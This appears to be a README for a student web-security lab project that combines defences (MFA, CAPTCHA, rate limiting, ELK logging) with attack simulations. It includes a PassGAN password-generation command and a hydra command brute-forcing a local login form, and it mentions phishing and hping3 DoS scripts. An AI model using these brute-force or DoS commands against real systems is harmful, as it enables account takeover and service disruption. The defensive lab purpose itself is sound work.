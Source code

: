 # 📁 Directory Overview

- `web_defense_project/`  
  Project folder for web, including MFA, CAPTCHA, and rate limiting.
  
- `elk/`  
  ELK stack configurations for logging, intrusion detection, and visualization using Elasticsearch, Logstash, and Kibana.
  
- `Bruteforce/`  
  A folder containing brute-force attack simulation scripts.

- `phingattack/`  
  A directory related to phishing attacks.

- `hping3_dos.sh`  
  Shell script for launching DoS attacks using `hping3`.

# 🛠️ How to Run

## Brute Force Attack

Bruteforce

### Step 1: Generate Passwords with PassGAN

Use the pre-trained PassGAN model to generate realistic password guesses:

```bash
python sample.py \
  --input-dir pretrained \
  --checkpoint pretrained/checkpoints/195000.ckpt \
  --output ai_pass_1k.txt \
  --num-samples 1000

2. Testing the list by using hydra 
hydra -l Group18 -P /home/kali/PassGAN/ai_pass.txt 127.0.0.1 http-post-form '/login:account=^USER^&password=^PASS^:Invalid Credentials!' -s 5000 -t 4
